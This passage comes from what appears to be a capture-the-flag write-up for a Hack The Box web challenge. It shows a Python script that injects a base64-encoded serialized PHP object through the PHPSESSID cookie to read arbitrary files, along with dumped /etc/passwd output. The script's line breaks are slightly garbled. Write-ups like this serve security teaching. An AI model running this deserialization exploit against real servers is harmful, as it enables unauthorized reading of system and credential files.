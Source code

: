 cyrus:x:85:12::/usr/cyrus:/sbin/nologin  
vpopmail:x:89:89::/var/vpopmail:/sbin/nologin  
ntp:x:123:123:NTP:/var/empty:/sbin/nologin  
smmsp:x:209:209:smmsp:/var/spool/mqueue:/sbin/nologin  
guest:x:405:100:guest:/dev/null:/sbin/nologin  
nobody:x:65534:65534:nobody:/:/sbin/nologin  
www:x:1000:1000:1000:/home/www:/bin/sh  
nginx:x:100:101:nginx:/var/lib/nginx:/sbin/nologin
{% endhighlight %}

Therefore, the server is most likely performing some sort of include statement on the file parameter. To efficiently enumerate files on the server, a python script was developed to quickly perform the operation of modifying the file parameter and base64 encoding the object:

{% highlight python %}
import requests from base64 
import b64encodewhile(True):  
     
   f = input("$ ")  
   payload = '''O:9:"PageModel":1:{s:4:"file";s:%d:"%s";}''' % (len(f.rstrip()),f.rstrip())  
   payload = b64encode(payload.encode())  
   cookies = { "PHPSESSID" : payload.decode() }  
   html = requests.get("http://167.99.88.212:30746",cookies=cookies).text   if len(html) > 0:  
       print(html)
{% endhighlight %}

In regards to the last two lines of the file, it was found that upon inputting a nonexistent file (or a file that cannot be read due to lack of permissions), the html output contained 0 bytes of data. Now, instead of tediously base64 encoding the cookie and putting it into BurpSuite, the python script can be run instead to quickly perform this task:

{% highlight bash %}
┌─\[0xd4y@Writeup\]─\[~/business/hackthebox/challenges/web/toxic\]  
└──╼ $python3 fileread.py  
$ /etc/passwd  
root:x:0:0:root:/root:/bin/ash  
bin:x:1:1:bin:/bin:/sbin/nologin  
daemon:x:2:2:daemon:/sbin:/sbin/nologin  
adm:x:3:4:adm:/var/adm:/sbin/nologin  
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin  
sync:x:5:0:sync:/sbin:/bin/sync  
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown  
halt:x:7:0:halt:/sbin:/sbin/halt  
mail:x:8:12:mail:/var/mail:/sbin/nologin  
news:x:9:13:news:/usr/lib/news:/sbin/nologin  
uucp:x:10:14:uucp:/var/spool/uucppublic:/sbin/nologin  
operator:x:11:0:operator:/root:/sbin/nologin  
man:x:13:15:man:/usr/man:/sbin/nologin  
postmaster:x:14:12:postmaster:/var/mail:/sbin/nologin  
cron:x:16:16:cron:/var/spool/cron:/sbin/nologin  
ftp:x:21:21::/var/lib/ftp:/sbin/nologin  
sshd:x:22:22:sshd:/dev/null:/sbin/nologin  
at:x:25:25:at:/var/spool/cron/atjobs:/sbin/nologin  
squid:x:31:31:Squid:/var/cache/squid:/sbin/nologin  
xfs:x:33:33:X Font Server:/etc/X11/fs:/sbin/nologin  
games:x:35:35:games:/usr/games:/sbin/nologin  
cyrus:x:85:12::/usr/cyrus:/sbin/nologin  
vpopmail:x:89:89::/var/vpopmail:/sbin/nologin  
ntp:x:123:123:NTP:/var/empty:/sbin/nologin  
smmsp:x:209:209:smmsp:/var/spool/mqueue:/sbin/nologin  
guest:x:405:100:guest:/dev/null:/sbin/nologin  
nobody:x:65534:65534:nobody:/:/sbin/nologin  
www:x:1000:1000:1000:/home/www:/bin/sh
{% endhighlight %}
